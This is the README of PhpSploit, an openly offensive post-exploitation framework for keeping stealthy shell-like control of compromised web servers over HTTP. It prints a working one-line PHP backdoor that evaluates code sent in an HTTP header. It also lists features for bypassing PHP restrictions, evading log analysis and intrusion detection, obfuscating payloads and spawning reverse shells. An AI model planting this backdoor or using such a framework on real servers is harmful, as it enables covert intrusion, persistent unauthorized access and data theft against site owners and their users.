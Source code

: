 ### PhpSploit: *Furtive post-exploitation framework* ###

PhpSploit is a **remote control** framework, aiming to provide a **stealth**
interactive shell-like connection over HTTP between client and web server.
It is a post-exploitation tool capable to maintain access to a
compromised web server for **privilege escalation** purposes.

[![Build Status](https://travis-ci.org/nil0x42/phpsploit.svg?branch=master)](https://travis-ci.org/nil0x42/phpsploit) [![Codacy Badge](https://api.codacy.com/project/badge/Grade/b998fe23c25f40a78c6c35c722bb9fa0)](https://app.codacy.com/app/nil0x42/phpsploit?utm_source=github.com&utm_medium=referral&utm_content=nil0x42/phpsploit&utm_campaign=Badge_Grade_Dashboard) ![License](https://img.shields.io/github/license/nil0x42/phpsploit.svg) [![codecov](https://codecov.io/gh/nil0x42/phpsploit/branch/master/graph/badge.svg)](https://codecov.io/gh/nil0x42/phpsploit)

![][picture]

---------------------------------------------------------------------
#### Overview ####

The obfuscated communication is accomplished using HTTP headers under
standard client requests and web server's relative responses, tunneled
through a tiny **polymorphic backdoor**:

```php
<?php @eval($_SERVER['HTTP_PHPSPL01T']); ?>
```

---------------------------------------------------------------------
#### Features ####

* **Efficient**: More than 20 plugins to automate post-exploitation tasks
    - Run commands and browse filesystem, bypassing PHP security restrictions
    - Upload/Download files between client and target
    - Edit remote files through local text editor
    - Run SQL console on target system
    - Spawn reverse TCP shells

* **Stealth**: The framework is made by paranoids, for paranoids
    - Nearly invisible by log analysis and NIDS signature detection
    - Safe-mode and common *PHP security restrictions bypass*
    - Communications are hidden in HTTP Headers
    - Loaded payloads are obfuscated to *bypass NIDS*
    - http/https/socks4/socks5 **Proxy support**

* **Convenient**: A robust interface with many crucial features
    - Detailed help for any command or option (type `help`)
    - *Cross-platform* on both the client and the server.
    - Powerful interface with completion and multi-command support
    - Session saving/loading feature & persistent history
    - Multi-request support for large payloads (such as uploads)
    - Provides a powerful, highly configurable settings engine
    - Each setting, such as user-agent has a *polymorphic mode*
    - Customisable environment variables for plugin interaction
    - Provides a complete plugin development API


---------------------------------------------------------------------
#### Supported platforms (as attacker): ####
* GNU/Linux
* Mac OS X

#### Supported platforms (as target): ####
* GNU/Linux
* BSD Like
* Mac OS X
* Windows NT


## [Get started now !] ##


[picture]: data/img/phpsploit-demo.png
[Get started now !]: https://github.com/nil0x42/phpsploit/wiki
